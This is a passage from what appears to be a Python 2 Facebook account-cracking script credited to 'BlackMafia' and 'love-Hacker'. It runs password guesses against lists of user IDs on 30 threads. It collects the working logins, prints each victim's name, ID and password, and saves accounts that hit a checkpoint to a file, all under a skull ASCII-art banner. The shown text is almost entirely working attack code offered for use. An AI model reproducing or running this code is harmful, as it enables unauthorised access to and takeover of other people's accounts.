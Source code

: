 											                                                               oks.append(user+pass11)
                                                                                                                                               else:
			                                                                                                                               if 'www.facebook.com' in q["error_msg"]:
				                                                                                                                           print '\x1b[1;93m[ ✖ ] \x1b[1;93mCheckpoint'
				                                                                                                                           print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']
				                                                                                                                           print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				                                                                                                                           print '\x1b[1;93m[•⊱✿⊰•] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass11 + '\n'
				                                                                                                                           cek = open("out/super_cp.txt", "a")
				                                                                                                                           cek.write("ID:" +user+ " Pw:" +pass11+"\n")
				                                                                                                                           cek.close()
				                                                                                                                           cekpoint.append(user+pass11)      
											                                       
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;91mBlackMafia\033[1;95m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•"
	print "  \033[1;91m«---•◈•---Developed By love-Hacker--•◈•---»" #Dev:love_hacker
	print '\033[1;93m✅Process Has Been Completed Press➡ Ctrl+Z.↩ Next Type (python2 Dragon.py)↩\033[1;97m....'
	print"\033[1;91mTotal OK/\x1b[1;95mCP \033[1;93m: \033[1;91m"+str(len(oks))+"\033[1;93m/\033[1;95m"+str(len(cekpoint))
	print """
 …………..$……………………………………..$…………..
…………$$……………………………………..$$…………
…………$$……………………………………..$$…………
…………..$$s………………………………s$$…………..
…………….$$$$……………………….$$$$…………….
………………³$$$$..¶¶¶¶¶¶¶¶..$$$$³………………
………………..³$$$$..¶¶¶¶¶¶..$$$$³………………..
………………¶..$$$$$..¶¶¶¶..$$$$$..¶………………
…………….¶¶¶..$$$..¶¶¶¶¶¶..$$$..¶¶………………
…………….¶¶¶….¶¶¶¶¶¶¶¶¶¶….¶¶¶¶………………
…………….¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶………………
………………..¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶………………..
………………..¶¶……..¶¶¶¶……….¶¶……………………
………………..¶¶……..¶¶¶¶……….¶¶………………….
………………..¶¶¶¶¶¶¶¶..¶¶¶¶¶¶¶¶………………….
………………….¶¶¶¶¶¶……¶¶¶¶¶¶¶………………….
……………………….¶¶¶¶¶¶¶¶¶…………………………
……………………….¶..¶..¶..¶..¶…………………………
…………¶…………..¶…………..¶…………..¶…………..
……….¶¶……………………………………….¶¶…………
……….¶¶……………………………………….¶¶…………
……….¶¶…………..¶¶……….¶¶…………..¶¶…………
……….¶¶..¶¶..¶¶..¶…………..¶..¶¶..¶¶..¶¶…………
……¶..¶¶..¶¶..¶¶..¶…………..¶..¶¶..¶¶..¶¶..¶……..
….¶¶..¶¶..¶¶..¶¶..¶…………..¶..¶¶..¶¶..¶¶..¶¶……
……¶¶¶¶..¶¶..¶¶………………….¶¶..¶¶..¶¶¶¶……..
 